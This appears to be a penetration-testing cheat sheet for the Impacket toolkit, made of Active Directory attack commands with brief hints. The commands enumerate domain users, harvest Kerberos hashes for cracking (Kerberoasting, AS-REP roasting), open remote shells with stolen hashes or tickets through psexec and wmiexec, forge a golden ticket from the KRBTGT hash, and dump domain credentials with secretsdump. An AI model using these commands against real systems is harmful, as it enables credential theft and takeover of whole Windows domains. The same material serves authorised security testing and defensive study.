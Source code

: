 # Impacket

## Enumeration

{% hint style="info" %}
**-format hashcat to export a formated hash**
{% endhint %}

### **Get AD users**

```csharp
python3 GetADUsers.py -all -k -no-pass -dc-ip <DC_IP> Domain.local/Administrator
```

### Get SPN users

#### with a ticket

```csharp
./GetUserSPNs.py -k -no-pass -dc-ip <DC_IP> Domain.local/Administrator
```

#### with a password

```csharp
./GetUserSPNs.py -request -dc-ip <DC_IP> Domain.local/Administrator
```

#### Account witch doesn't require Kerberos Authentication

```csharp
./GetNPUsers.py -dc-ip 10.110.0.222 -request 'crook.badcorp.local/' -format hashcat
```

## File server

```csharp
sudo ./smbserver.py Test /tmp -smb2support -user polo -password test123 
```

## Psexec

{% hint style="warning" %}
Ensure that you added the DC ip into /etc/hosts and set up the DNS into /etc/resolv.conf
{% endhint %}

### Pass the hash

```csharp
./psexec.py -hashes <ntlm hash:ntlm hash> Administrator@<HOSTNAME>
```

### Kerberos ticket

```csharp
./psexec.py CROOK.BADCORP.LOCAL/Administrator@DC103 -k -no-pass
```

## Wmiexec

{% hint style="warning" %}
As opposite to psexec which provides NT LOCAL/System shell, wmiexec allows to keep the requested user context, i.e. Domain\Administrator will get an Domain\Administrator shell.
{% endhint %}

### login / password

```csharp
proxychains ./wmiexec.py  Domain/user:Password@1.2.3.4
```

### kerberos ticket

{% hint style="info" %}
Kerberos ticket must be injected first.
{% endhint %}

```csharp
./wmiexec.py CROOK.BADCORP.LOCAL/Administrator@DC103 -k -no-pass
```

## Kerberos Golden Ticket

### Request a TGT

```csharp
./ticketer.py -nthash <KRBTGT NTLM HASH> -domain-sid <DOMAIN SID> -domain <MYDOMAIN.LOCAL> Administrator
```

### Import the TGT

```csharp
export KRB5CCNAME=krb5cc_91801115_mine
```

### Connect using the ticket

```csharp
./psexec.py CROOK.BADCORP.LOCAL/Administrator@10.110.0.222 -k -no-pass
```

### DSYNC

```csharp
./secretsdump.py crook.badcorp.local/User:Password@10.110.0.222
```

## MSSQLclient.py

```csharp
./mssqlclient.py user@server -windows-auth
```

